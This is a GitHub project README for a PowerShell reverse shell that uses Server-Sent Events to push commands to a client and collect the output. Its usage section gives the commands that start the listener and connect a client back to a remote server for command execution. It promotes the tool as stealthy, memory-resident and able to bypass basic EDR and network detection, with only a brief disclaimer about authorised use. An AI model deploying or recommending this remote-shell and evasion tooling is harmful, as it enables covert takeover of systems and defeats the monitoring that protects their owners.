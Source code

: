 # SSE Reverse Shell – The Quiet Shell No One Saw Coming

This project demonstrates a stealthy reverse shell built using native PowerShell and Server-Sent Events (SSE) — a simple HTTP-based protocol that pushes messages from server to client over a single persistent connection.

Unlike traditional reverse shells that rely on polling, sockets, or external binaries, this one uses only:

- Native PowerShell
- A single GET request
- text/event-stream over HTTP
- Memory-resident execution with minimal noise

## Components

### Start-SseServer.ps1
The SSE server:
- Listens on a specified port using raw TCP
- Pushes commands to clients via SSE
- Receives command output via HTTP POST (/post endpoint)
- Optional interactive terminal or headless mode

### Start-SseClient.ps1
The SSE client:
- Connects to the server’s /sse endpoint
- Receives commands via SSE stream
- Executes them locally and posts results back

## Usage

### Server (interactive terminal):
```
. .\Start-SseServer.ps1
Start-SseServer -Port 8080
```

### Server (headless mode):
```
Start-SseServer -Port 8080 -Headless
```

### Client:
```
. .\Start-SseClient.ps1
Start-SseClient -Uri "http://<server-ip>:8080"
```

## Features
- Fully memory-resident execution
- No need for raw sockets or polling loops
- Can bypass basic EDR/network detections
- Minimalist, stealthy, and flexible

## Screenshots


## Disclaimer

This tool is for educational and research purposes only.
Do not use this on networks or systems you do not own or have explicit permission to test.

## License

MIT License  
Author: CNT

